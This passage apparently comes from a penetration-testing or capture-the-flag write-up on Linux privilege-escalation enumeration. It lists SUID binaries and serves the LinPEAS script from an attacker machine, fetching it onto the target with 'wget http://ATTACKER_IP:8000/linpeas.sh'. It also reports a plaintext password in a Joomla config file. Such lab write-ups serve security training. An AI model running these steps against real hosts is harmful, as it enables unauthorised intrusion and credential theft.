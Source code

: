 find / -perm -u=s -type f 2>/dev/null\`

/usr/bin/chage

/usr/bin/gpasswd

/usr/bin/chfn

/usr/bin/chsh

/usr/bin/newgrp

/usr/bin/su

/usr/bin/sudo

/usr/bin/mount

/usr/bin/umount

/usr/bin/crontab

/usr/bin/pkexec

/usr/bin/passwd

/usr/sbin/unix\_chkpwd

/usr/sbin/pam\_timestamp\_check

/usr/sbin/usernetctl

/usr/lib/polkit-1/polkit-agent-helper-1

/usr/libexec/dbus-1/dbus-daemon-launch-helper

* No unusual cronjobs (cat /etc/crontab).

### **Enumerate target host using LinPEAS (Reconnaisance: Active Scanning: Vulnerability Scanning (ID: T1595.002))** <a href="#id-5d2679u3px8n" id="id-5d2679u3px8n"></a>

* Download LinPEAS to attack host.

wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

* Serve payload through python webserver.

python3 -m http.server

* Download LinPEAS to target host.

wget http://ATTACKER\_IP:8000/linpeas.sh

chmod +x ./linpeas.txt

* Ensure that target directory has write permissions.
  * E.g. /tmp.
* Write LinPEAS output to text file.

./linpeas.sh -a > linpeas.txt

* Plaintext password found in Joomla "/var/www/html/configuration.php" file.
